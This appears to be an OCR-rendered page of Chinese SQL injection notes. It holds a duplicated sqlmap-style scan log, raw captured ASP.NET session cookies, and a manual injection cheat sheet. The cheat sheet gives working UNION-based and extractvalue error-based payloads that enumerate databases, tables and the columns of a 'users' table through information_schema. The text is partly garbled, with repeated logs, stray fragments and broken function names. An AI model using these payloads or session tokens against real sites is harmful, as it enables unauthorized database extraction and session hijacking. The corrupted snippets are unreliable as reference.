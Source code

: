 \[16:58:44] \[INFO] testing 'Boolean-based blind - Parameter replace (original value)' \[16:58:44] \[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' \[16:58:44] \[INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause' \[16:58:44] \[INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)' \[16:58:44] \[INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)' \[16:58:44] \[INFO] testing 'Generic inline queries' \[16:58:44] \[INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)' \[16:58:44] \[INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)' \[16:58:44] \[INFO] testing 'Oracle stacked queries (DBMS\_PIPE.RECEIVE\_MESSAGE - comment)' \[16:58:44] \[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' \[16:58:44] \[INFO] testing 'PostgreSQL > 8.1 AND time-based blind' \[16:58:44] \[INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)' \[16:58:44] \[INFO] testing 'Oracle AND time-based blind' \[16:58:44] \[INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

\[16:58:42] \[INFO] testing 'Boolean-based blind - Parameter replace (original value)' \[16:58:42] \[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' \[16:58:42] \[INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause' \[16:58:42] \[INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)' \[16:58:42] \[INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)' \[16:58:42] \[INFO] testing 'Generic inline queries' \[16:58:42] \[INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)' \[16:58:42] \[INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)' \[16:58:42] \[INFO] testing 'Oracle stacked queries (DBMS\_PIPE.RECEIVE\_MESSAGE - comment)' \[16:58:42] \[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' \[16:58:42] \[INFO] testing 'PostgreSQL > 8.1 AND time-based blind' \[16:58:42] \[INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)' \[16:58:42] \[INFO] testing 'Oracle AND time-based blind' \[16:58:42] \[INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

Microsoft SQL Server/Sybase time-based blind (IF)'

PostgreSQL > 8.1 stacked queries (comment)

```
Hm_lvt_b1d43477dad4478f5edbd9345e0f744d="1631930854,1633653959"; ASP.NET_SessionId=dx5sbjm0ppop1x1smsn3jw5f; ASP.NET_SessionId_NS_Sig=oenCV6mdzXYl-lDs; Hm_lpvt_b1d43477dad4478f5edbd9345e0f744d=1633676190; v10.46.236.4eq89=ip=1&time=637693073538084772&stime=637693073538084772
```

```
Hm_lvt_b1d43477dad4478f5edbd9345e0f744d="1631930854,1633653959"; ASP.NET_SessionId=dx5sbjm0ppop1x1smsn3jw5f; ASP.NET_SessionId_NS_Sig=oenCV6mdzXYl-lDs; Hm_lpvt_b1d43477dad4478f5edbd9345e0f744d=1633676190; v10.46.236.4eq89=ip=1&time=637693073538084772&stime=637693073538084772
```

#### 手工注入

```
Order by 1,2,3,     ----->猜字段

union select  1,2,database()  ---》 爆库名

union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(); --》数据库名称

Union select 1,2,group_comcat(column_name) from table_schema.columns where table_name=表名;--》列名

id为正确值时 :
 
​extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) * --+*    爆表---〉


​?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+    爆列名----》

?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in ('user_id','first_name','last_name','user','avatar','last_login','failed_login')))) --+

```